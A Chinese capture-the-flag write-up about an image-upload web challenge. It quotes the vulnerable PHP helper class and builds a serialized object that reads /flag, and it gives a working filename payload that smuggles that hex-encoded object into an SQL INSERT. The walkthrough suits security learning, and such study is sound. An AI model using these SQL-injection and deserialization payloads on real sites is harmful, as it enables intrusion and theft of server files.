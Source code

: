 知识点:

1. 信息泄露
2. sql注入
3. 反序列化




1.MIME类型检测绕过
设置为image/jpeg，无果

2.黑名单绕过
尝试设置后缀如php3,php5,无果

3.%00截断
尝试，无果。

4.应用程序解析绕过

.php.jpg。上传成功！



发现怎么后缀是jpg，然后通过路径访问的话报404，这里我就开始奇怪了，难道真的不是文件上传，毕竟就算上传成功也需要爆出路径才能利用，但是这明显是假路径。

思考其他的方向，既然buu给了github源码，那就看看源码吧，看了看，主要逻辑代码在helper.php

***1\***|***2\*****代码审计**



```
<?php
class helper {
    protected $folder = "pic/";
    protected $ifview = False;
    protected $config = "config.txt";
    // The function is not yet perfect, it is not open yet.

    public function upload($input="file")
    {
        $fileinfo = $this->getfile($input);
        $array = array();
        $array["title"] = $fileinfo['title'];
        $array["filename"] = $fileinfo['filename'];
        $array["ext"] = $fileinfo['ext'];
        $array["path"] = $fileinfo['path'];
        $img_ext = getimagesize($_FILES[$input]["tmp_name"]);
        $my_ext = array("width"=>$img_ext[0],"height"=>$img_ext[1]);
        $array["attr"] = serialize($my_ext);
        $id = $this->save($array);
        if ($id == 0){
            die("Something wrong!");
        }
        echo "<br>";
        echo "<p>Your images is uploaded successfully. And your image's id is $id.</p>";
    }

    public function getfile($input)
    {
        if(isset($input)){
            $rs = $this->check($_FILES[$input]);
        }
        return $rs;
    }

    public function check($info)
    {
        $basename = substr(md5(time().uniqid()),9,16);
        $filename = $info["name"];
        $ext = substr(strrchr($filename, '.'), 1);
        $cate_exts = array("jpg","gif","png","jpeg");
        if(!in_array($ext,$cate_exts)){
            die("<p>Please upload the correct image file!!!</p>");
        }
        $title = str_replace(".".$ext,'',$filename);
        return array('title'=>$title,'filename'=>$basename.".".$ext,'ext'=>$ext,'path'=>$this->folder.$basename.".".$ext);
    }

    public function save($data)
    {
        if(!$data || !is_array($data)){
            die("Something wrong!");
        }
        $id = $this->insert_array($data);
        return $id;
    }

    public function insert_array($data)
    {
        $con = mysqli_connect("127.0.0.1","r00t","r00t","pic_base");
        if (mysqli_connect_errno($con))
        {
            die("Connect MySQL Fail:".mysqli_connect_error());
        }
        $sql_fields = array();
        $sql_val = array();
        foreach($data as $key=>$value){
            $key_temp = str_replace(chr(0).'*'.chr(0), '\0\0\0', $key);
            $value_temp = str_replace(chr(0).'*'.chr(0), '\0\0\0', $value);
            $sql_fields[] = "`".$key_temp."`";
            $sql_val[] = "'".$value_temp."'";
        }
        $sql = "INSERT INTO images (".(implode(",",$sql_fields)).") VALUES(".(implode(",",$sql_val)).")";
        mysqli_query($con, $sql);
        $id = mysqli_insert_id($con);
        mysqli_close($con);
        return $id;
    }

    public function view_files($path){
        if ($this->ifview == False){
            return False;
            //The function is not yet perfect, it is not open yet.
        }
        $content = file_get_contents($path);
        echo $content;
    }

    function __destruct(){
        # Read some config html
        $this->view_files($this->config);
    }
}

?>
```

这里懂了两个文件的内容
**upload.php：**
上传页面，包括了helper.php ，序列化图片的内容并存在数据库中。

**helper.php：**
反序列化数据库中的内容，输出图片内容

所以我们的核心思路：
**将危险代码通过序列化存在数据库中，在反序列化的过程后，通过某些函数执行危险代码**

这里一定可以存入数据库，否则我们在前端无法利用，所以数据库的语句一定有漏洞，只要想好怎么利用就可以

大概看看代码，在view_files 函数里存在文件读取，那么就按照他的来，

**构造ifview==True,content=/flag**

***1\***|***3\*****编写exp**



```
<?php
class helper {
    protected $ifview = True;
    protected $config = "/flag";

}
$a = new helper();
echo serialize($a);

?>
```

序列化得出
`O:6:"helper":2:{s:9:"*ifview";b:1;s:9:"*config";s:5:"/flag";}`

因为两个属性是public，所以字段名前面加上\0*\0的前缀

***1\***|***4\*****sql注入**

然后思路是想看到sql语句，其中应该可以插入危险代码，导致sql注入。那么我们先找到SQL语句:

```
INSERT INTO images (".(implode(",",$sql_fields)).") VALUES(".(implode(",",$sql_val)).")
```

追溯函数:

1. `implode(",",$sql_fields:`
   用逗号组合sql_fields
2. `$sql_fields[] = "`".$key_temp."`";`
   反引号中间包含str_replace(chr(0).'*'.chr(0), '\0\0\0', $key);
3. `$key_temp = str_replace(chr(0).'*'.chr(0), '\0\0\0', $key);`
   替换后的key

4.`foreach($data as $key=>$value)`
data的键数组

看看pop链：
insert_array->save->upload

最终也就是array数组中的内容，即是我们上传的图片的各项参数。那我们能控制的也就是图片的图片名，然后发现title就是去掉后缀的filename。看到check函数返回的内容就懂了。

```
return array('title'=>$title,'filename'=>$basename.".".$ext,'ext'=>$ext,'path'=>$this->folder.$basename.".".$ext);
```

我们按照此格式上传刚刚序列化后的内容，该代码先经过序列化，然后存入数据库中，后端将其从数据库中取出，反序列化，触发析构函数，读取flag内容

然后看到代码中在序列化和反序列化时对protected属性进行了过滤，所以我们不能直接传入\0*\0的前缀。需要按照他的传入\0\0\0，经过处理后我们为需要的内容。

```
O:6:"helper":2:{s:9:"\0\0\0ifview";b:1;s:9:"\0\0\0config";s:5:"/flag";}
```

因为不能使用双引号，所以我们hex。

构造文件名：
`filename="a','1','1','1',0x4f3a363a2268656c706572223a323a7b733a393a22002a00696676696577223b623a313b733a393a22002a00636f6e666967223b733a353a222f666c6167223b7d)#.png"`

（需要用#注释掉后面的内容，当然不用#注释，按照他的格式再往后核实也可以）

burpsuite抓包，先传一个图片，更改内容为上面的值，上传成功，访问show.php，获取flag

***1\***|***5\*****总结思路**

- 源码泄露，获得源码
- 代码审计，一个序列化传进数据库，一个反序列化从数据库取出
- 构造危险代码->匹配成功传入数据库->反序列化出内容->通过相关函数获取flag